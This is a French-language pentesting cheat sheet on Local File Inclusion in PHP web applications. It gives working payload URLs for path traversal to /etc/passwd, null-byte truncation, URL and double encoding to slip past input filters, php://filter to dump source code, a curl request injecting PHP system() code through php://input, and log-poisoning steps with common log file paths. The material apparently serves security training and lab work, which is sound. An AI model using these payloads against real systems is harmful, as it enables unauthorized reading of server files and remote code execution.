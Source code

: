 

<!--- category: lfi --->
<!--- id: intro --->
<!--- title: Inclusion de Fichier Local (LFI) --->
<!--- keywords:  --->
## Inclusion de Fichier Local (LFI)




<!--- category: lfi --->
<!--- id: LFI --->
<!--- title: LFI --->
<!--- keywords:  --->
## LFI

De nombreux langages de programmations, comme le php, sont capable de lire des fichiers et les interpréter pour générer des pages HTML dynamiques.<br/>
Cette fonction peut être détournée si elle prend en entrée une variable modifiable par l'utilisateur.<br/>
<br/>
Par exemple:<br/>
L'url http://10.10.10.11/index.php?page=login.php est envoyée au serveur.<br/>
A la réception de cette requête, le serveur va inclure le fichier 'login.php', et l'éxécuter pour générer la page de login.<br/>
 <br/>
Nous allons remplacer 'login.php' par le nom d'un autre fichier, par exemple '/etc/passwd'.<br/>

```
http://10.10.10.11/index.php?page=/etc/passwd
```



<!--- category: lfi --->
<!--- id: FLI.. --->
<!--- title: LFI: Accéder à / --->
<!--- keywords:  --->
## LFI: Accéder à /

Le serveur web apache fonctionne généralement dans le répertoire /var/www/html.<br/>
Si nous précisons page=/etc/passwd, le serveur risque de chercher le fichier /var/www/html/etc/passwd. <br/>
Nous utilisons alors /../ pour remonter d'un répertoire.<br/>

```
/var/www/html/../etc/passwd => /var/www/etc/passwd.
/var/www/html/../../etc/passwd => /var/etc/passwd.
```


Nous utilisons une série de ../../../../../ devant le nom du fichier pour forcer le serveur à redescendre au niveau de la racine des répertoires.<br/>
/var/www/html/../../../../../../../ vaut /, quel que soit le nombre de ../<br/>


```
http://10.10.10.11?page=../../../../../etc/passwd
```

Une LFI permet de lire TOUS les fichiers de la machine accessible au compte du serveur web.



<!--- category: lfi --->
<!--- id: LFINull --->
<!--- title: NUll byte --->
<!--- keywords:  --->
## NUll byte

Le serveur extrait le paramètre 'page' de la requète http://10.10.10.11/index.php?page=login, et ajoute l'extension '.php' avant d'inclure le fichier.<br/>
<br/>
http://10.10.10.11/index.php?page=/etc/password va essayer d'ouvrir sans success /etc/password.php.<br/>
<br/>
Sur les version de php antérieures à 5.3.4, l'ajout d'un null byte à la fin de notre paramètre va signifier la fin de la chaine de caractère, et conduit à ignorer l'extension '.php'.<br/>
```
http://10.10.10.11/index.php?page=/etc/password%00
```





<!--- category: lfi --->
<!--- id: LFIURLDoubleEncodage --->
<!--- title: Double encodage d'URL --->
<!--- keywords:  --->
## Double encodage d'URL

```
<   %3C %253C
>   %3E %253E
«   %22 %2522
‘   %27 %2527
/   %2F %252F
.   %2E %252E
=   %3D %253D
–   %2D %252D
:   %3A %253A
```
    


<!--- category: lfi --->
<!--- id: LFIWaf --->
<!--- title: WAF: Filtres applicatifs --->
<!--- keywords:  --->
## WAF: Filtres applicatifs

Les développeurs ayant conscience des risques de LFI peuvent ajouter des fonctions qui vont filtrer les entrées.<br/>
Ils vont supprimer les ../ et les / dans le nom du fichier<br/>
Ce genre de filtre s'appelle un Waf : Web Application Filter.<br/>
<br/>
Il est possible de contourner ces filtres de plusieures manières:<br/>
- En prévoyant que des suites de caractères seront filtrés: ..././ une fois filtré va donner ../<br/>
http://10.10.10.11/index.php?page=..././..././..././..././passwd<br/>
 <br/>
- En utilisant un encodage url:<br/>
../ devient %2e%2e%2f<br/>
/ devient %2f<br/>
http://10.10.10.11/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd<br/>    
<br/>
- En utilisant un double encodage url:<br/>
../ devient %2e%2e%2f qui lui même devient %252e%252e%252f<br/>
/ devient %252f<br/>
http://10.10.10.11/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpassword<br/>
<br/>
Même si généralement les navigateurs ne ralent pas trop, ils peuvent interpréter les caractères encodés voire les réencoder. Il est souvent préférable de modifier l'URL dans une command curl ou un proxy plutôt que dans le navigateur.



<!--- category: lfi --->
<!--- id: LFIphpfilter --->
<!--- title: Php:filter : Recupérer les codes sources php --->
<!--- keywords:  --->
## Php:filter : Recupérer les codes sources php

Le langage php offre la possibilité de passer les fichiers dans des filtres avant de les ouvrir. Il est ainsi possible d'encoder un fichier en base64 avant de l'ouvrir.
````
http://10.10.10.11/index.php?page=php://filter/read=convert.base64-encode/resource=login.php 
http://10.10.10.11/index.php?page=php://filter/convert.base64-encode/resource=login.php 
````
Il ne reste plus qu'à décoder pour obtenir le code source du fichier php.



<!--- category: lfi --->
<!--- id: LFIphpinput --->
<!--- title: Php:input : Injecter du code via un Post HTTP --->
<!--- keywords:  --->
## Php:input : Injecter du code via un Post HTTP

Le langage php permet de traiter le contenu de la requête HTTP comme un fichier. Il est ainsi possible de lire et faire executer le contenu brut des données en POST avec php://input.<br/>

curl  -X POST -d 'test=&lt;? system (&quot;id&quot;); ?>' http://pwnlab/?page=php://input<br/>
<br/>
Ne fonctionne que si l'option allow_url_include = On est active dans la config php. Cette option est désactivée par défaut.



<!--- category: lfi --->
<!--- id: FLILog --->
<!--- title: Exploitation des logs --->
<!--- keywords:  --->
## Exploitation des logs

Pour injecter une payload Php dans le fichier de logs d'un serveur web, il suffit de faire une requête de type HTTP GET contenant du code php dans l'url.<br/>
Pour un serveur ftp ou ssh, injecter la payload dans le login.
Nous utilisons ensuite une LFI sur le fichier de log pour déclencher l'execution de la payload.<br/>
<br/>
Fichiers de logs usuels:<br/>
Apache<br/>
/var/log/apache/access.log<br/>
/var/log/apache/error.log<br/>
/usr/local/apache/log/error_log<br/>
/usr/local/apache2/log/error_log<br/>
/var/log/httpd/error_log<br/>
<br/>
Nginx<br/>
/var/log/nginx/access.log<br/>
/var/log/nginx/error.log<br/>
<br/>
Ssh<br/>
/var/log/sshd.log<br/>
<br/>
Il est possible de vérifier l'emplacement des fichiers de logs en lisant les fichiers de config.<br/>
Fichier de config de Nginx: /etc/nginx/nginx.conf<br/>
Entrée du fichier de config : access_log /spool/logs/nginx-access.log<br/>

